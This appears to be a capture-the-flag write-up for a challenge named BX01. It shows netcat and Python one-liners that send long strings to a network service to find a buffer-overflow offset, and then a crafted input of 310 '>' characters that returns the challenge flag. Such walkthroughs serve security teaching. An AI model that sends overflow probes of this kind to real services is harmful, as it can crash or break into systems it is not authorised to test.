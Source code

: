 # BX01 - 1000pts

## Briefing

> Access the network service at url: `cfta-bx01.allyourbases.co` and port: `8012` and find a way to get the flag by formatting a valid request.

## Solution

1. I completely overthought this problem I was trying advanced buffer overflow techniques (trying to get past a canary, etc) when the valid request is actually pretty simple.

2. I start by testing if the service is vulnerable to a buffer overflow: `python -c "print('a'*700)" | nc cfta-bx01.allyourbases.co 8012`

    ```
    Processing request...
    Exception: angle brackets not terminated.
    *** stack smashing detected ***
    ```

    Looks like it is vulnerable.

3. I wrote a simple [pwntools Python script](./script.py) to try some possible offsets and found the overflow to happen at `311`, so the offset is `310`.

4. `python -c "print('a'*310)" | nc cfta-bx01.allyourbases.co 8012` simply outputs:

    ```
    Processing request...
    Exception: angle brackets not terminated.
    ```

5. We can send 310 `>`s instead of `a`s to terminate the angle brackets and get the flag: `python -c "print('>'*310)" | nc cfta-bx01.allyourbases.co 8012`:

    ```
    Processing request...
    Exception: angle brackets not terminated.
    Request successful.

    Flag: AlOnGSeaRcHFoROverWriTe
    ```

### Flag

`AlOnGSeaRcHFoROverWriTe`

